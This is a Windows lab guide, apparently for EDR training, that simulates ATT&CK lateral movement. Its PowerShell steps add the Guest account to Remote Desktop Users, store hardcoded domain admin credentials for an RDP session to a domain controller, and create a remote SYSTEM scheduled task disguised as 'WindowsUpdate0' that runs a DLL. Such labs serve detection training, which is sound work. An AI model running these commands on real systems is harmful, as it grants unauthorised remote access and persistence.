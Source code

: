 ```yaml
---
Title: ATT&CK - Lateral Movement Phase
Description: Simulate lateral movement techniques used by attackers within a network
Author: Chris Gerritz, Datto
Created: 04/17/2025
Achievements:
Duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
External:
- attack.mitre.org
- allitshop.infocyte.com
---
```


## Description

The purpose of this lab is to simulate lateral movement techniques used by attackers to pivot between systems within a network. You will use PowerShell commands to simulate the creation of RDP connections and remote scheduled tasks on a target system. This lab emphasizes understanding how attackers move laterally and how these activities can be monitored or mitigated.

---

## Objectives
1. Understand the Lateral Movement phase of an attack.
2. Demonstrate techniques to establish remote connections and execute tasks on remote systems.
3. Evaluate the outputs and implications of lateral movement activities.

---

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows                     |
| **Applications** | PowerShell                  |
| **Needed Files** | None                        |

---

## Instructions

Open a new terminal using `c:\Users\Public\rat.exe` or you can use the same terminal from the previous lab. You will be copying and pasting the lab commands into this terminal session.  If you close this window, remember to re-open `c:\Users\Public\rat.exe` before running any of the labs.

w> All labs require you to be running as an administrator. 


### 1. Add Guest to Remote Desktop Users Group
> *This step simulates an attacker adding a Guest user to the Remote Desktop Users group to enable remote access.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host -ForegroundColor Cyan "Initiating Lateral Movement - Adding Guest to Remote Desktop Users Group"
   net localgroup "Remote Desktop Users" Guest /add
   Write-Host -ForegroundColor Green "Guest successfully added to Remote Desktop Users group."
   ```

---

### 2. Establish Remote RDP Connection
> *This step simulates an attacker using stolen credentials to establish an RDP session with a target machine.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:

```PowerShell
$cmd = @'
cmdkey /generic:TERMSRV/CORP-DC01 /user:corp.local\adminuser /pass:P@ssw0rd123
mstsc /v:CORP-DC01
echo "RDP connection initiating......"
'@

$cmd += "`nStart-Sleep -Milliseconds $n"
powershell.exe -NoProfile $cmd

```

---

### 3. Create a Remote Scheduled Task
> *Simulates an attacker creating a scheduled task on a remote machine to execute malicious code.*

- MITRE ATT&CK Technique: [T1053.005 - Scheduled Task: Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/005)
- Copy and paste the following PowerShell commands into the terminal:
```PowerShell
Write-Host "Simulating Scheduled Task Creation on remote machine CORP-DC01..."

& Powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -command {
cmd.exe  /c SCHTASKS  /s CORP-DC01 /RU "SYSTEM" /create /tn "WindowsUpdate0" /tr "rundll32 C:\ProgramData\good.dll,good" /sc ONCE /sd 01/01/1910 /st 00:00
}
```



---

